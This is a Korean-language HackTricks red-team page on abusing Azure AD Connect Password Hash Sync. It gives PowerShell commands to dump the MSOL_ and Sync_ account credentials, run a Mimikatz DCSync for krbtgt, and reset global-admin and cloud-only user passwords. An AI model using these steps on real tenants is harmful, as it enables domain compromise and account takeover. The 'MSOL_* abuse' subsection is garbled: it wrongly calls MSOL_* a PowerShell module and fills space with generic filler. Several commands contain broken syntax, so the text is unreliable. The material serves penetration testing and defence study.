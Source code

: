 # Az - PHS - Password Hash Sync

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고를 게재**하거나 **PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 기본 정보

[문서에서 찾을 수 있습니다:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization**은 하이브리드 ID를 달성하기 위해 사용되는 로그인 방법 중 하나입니다. **Azure AD Connect**는 온프레미스 Active Directory 인스턴스의 사용자 비밀번호의 해시를 클라우드 기반 Azure AD 인스턴스로 동기화합니다.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

이는 회사에서 온프레미스 AD를 Azure AD와 동기화하는 데 가장 일반적으로 사용되는 방법입니다.

모든 **사용자**와 **비밀번호 해시의 해시**가 온프레미스에서 Azure AD로 동기화됩니다. 그러나 **평문 비밀번호** 또는 **원래 해시**는 Azure AD로 전송되지 않습니다.\
또한, **도메인 관리자와 같은** **기본** **보안 그룹**은 Azure AD로 **동기화되지 않습니다**.

해시 동기화는 **2분마다** 발생합니다. 그러나 기본적으로 Azure AD에서 **비밀번호 만료** 및 **계정 만료**는 **동기화되지 않습니다**. 따라서 **온프레미스 비밀번호가 만료된** 사용자는 (변경하지 않은 상태에서) 이전 비밀번호를 사용하여 Azure 리소스에 계속 액세스할 수 있습니다.

온프레미스 사용자가 Azure 리소스에 액세스하려면 인증은 Azure AD에서 수행됩니다.

**PHS**는 Identity Protection 및 AAD Domain Services와 같은 기능에 필요합니다.

## Pivoting

PHS가 구성되면 일부 **특권 계정**이 자동으로 **생성**됩니다:

* **`MSOL_<installationID>`** 계정은 온프레미스 AD에서 자동으로 생성됩니다. 이 계정은 **Directory Synchronization Accounts** 역할을 부여받으며 (자세한 내용은 [문서](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions) 참조), 온프레미스 AD에서 **복제 (DCSync) 권한**을 갖습니다.
* **`Sync_<name of on-prem ADConnect Server>_installationID`** 계정이 Azure AD에 생성됩니다. 이 계정은 Azure AD에서 동기화된 사용자 또는 클라우드 전용 사용자의 **비밀번호를 재설정**할 수 있습니다.

이전 특권 계정의 비밀번호는 **Azure AD Connect가 설치된 서버**의 SQL 서버에 **저장**됩니다. 관리자는 이러한 특권 사용자의 비밀번호를 평문으로 추출할 수 있습니다.\
데이터베이스는 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`에 위치합니다.

테이블 중 하나에서 구성을 추출하는 것이 가능합니다. 그 중 하나는 암호화되어 있습니다:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**암호화된 구성**은 **DPAPI**로 암호화되어 있으며, 이는 온프레미스 AD의 **`MSOL_*` 사용자의 비밀번호**와 AzureAD의 **Sync\_\***의 비밀번호를 포함합니다. 따라서 이러한 비밀번호를 침해당하면 AD 및 AzureAD로 권한 상승이 가능합니다.

이 [발표에서 이러한 자격 증명이 저장되고 해독되는 전체 개요를 찾을 수 있습니다](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### **Azure AD Connect 서버 찾기**

Azure AD Connect가 설치된 **서버가 도메인에 가입**된 경우 (문서에서 권장), 다음을 사용하여 찾을 수 있습니다:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* 남용하기

MSOL\_\*은 Azure AD Connect의 일부로 사용되는 PowerShell 모듈입니다. 이 모듈은 Azure AD와의 통합을 관리하기 위해 사용됩니다. 악용자는 MSOL\_\* 모듈을 사용하여 Azure AD Connect 서버에 대한 권한 상승 및 수평 이동을 시도할 수 있습니다.

#### MSOL\_\* 명령어

MSOL\_\* 모듈에는 다양한 명령어가 있습니다. 이 명령어를 통해 사용자, 그룹, 라이센스, 도메인 등을 관리할 수 있습니다. 악용자는 이러한 명령어를 사용하여 Azure AD Connect 서버에서 다양한 작업을 수행할 수 있습니다.

#### 권한 상승

악용자가 로컬 관리자 권한을 가진 Azure AD Connect 서버에 접근할 수 있다면, MSOL\_\* 모듈을 사용하여 권한 상승을 시도할 수 있습니다. 이를 통해 악용자는 더 높은 권한을 얻어 Azure AD Connect 서버에서 더 많은 작업을 수행할 수 있게 됩니다.

#### 수평 이동

악용자가 Azure AD Connect 서버에 접근할 수 있다면, MSOL\_\* 모듈을 사용하여 다른 서버로의 수평 이동을 시도할 수 있습니다. 이를 통해 악용자는 Azure AD Connect 서버에서 다른 서버로의 접근 권한을 얻을 수 있습니다.

#### 방지 방법

MSOL\_\* 모듈의 악용을 방지하기 위해 다음과 같은 조치를 취할 수 있습니다.

- Azure AD Connect 서버에 대한 접근 제한: Azure AD Connect 서버에 대한 접근을 최소한으로 제한하여 악용자가 서버에 접근하는 것을 방지합니다.
- 권한 상승 방지: Azure AD Connect 서버에 로컬 관리자 권한을 부여하지 않고 필요한 최소한의 권한만 부여합니다.
- 로깅 및 모니터링: Azure AD Connect 서버에서 발생하는 활동을 로깅하고 모니터링하여 악용 시도를 탐지하고 대응할 수 있습니다.

MSOL\_\* 모듈의 악용은 Azure AD Connect 서버의 보안을 약화시킬 수 있으므로 이러한 위협에 대비하여 적절한 보안 조치를 취해야 합니다.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
이 자격 증명을 얻기 위해 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump)를 사용할 수도 있습니다.
{% endhint %}

### Sync\_\* 남용

**`Sync_*`** 계정을 침해하여 모든 사용자 (글로벌 관리자 포함)의 **비밀번호를 재설정**할 수 있습니다.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
**클라우드 사용자의 비밀번호를 수정하는 것도 가능합니다** (비록 예상치 못한 일이지만).
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
이 사용자의 비밀번호를 덤프하는 것도 가능합니다.

{% hint style="danger" %}
다른 옵션은 **Sync** 사용자가 수행할 수 있는 **권한**을 가진 **서비스 주체에 특권 권한을 할당**한 다음, 그 서비스 주체에 **액세스**하여 권한 상승을 수행하는 것입니다.
{% endhint %}

### Seamless SSO

PHS와 함께 Seamless SSO를 사용하는 것도 가능하며, 이는 다른 악용에 취약합니다. 확인하려면 다음을 참조하세요:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 참고 자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드하려면 [구독 요금제](https://github.com/sponsors/carlospolop)를 확인하세요!
* [공식 PEASS & HackTricks 스웨그](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [NFT](https://opensea.io/collection/the-peass-family) 컬렉션인 [The PEASS Family](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [Discord 그룹](https://discord.gg/hRep4RUj7f) 또는 [텔레그램 그룹](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
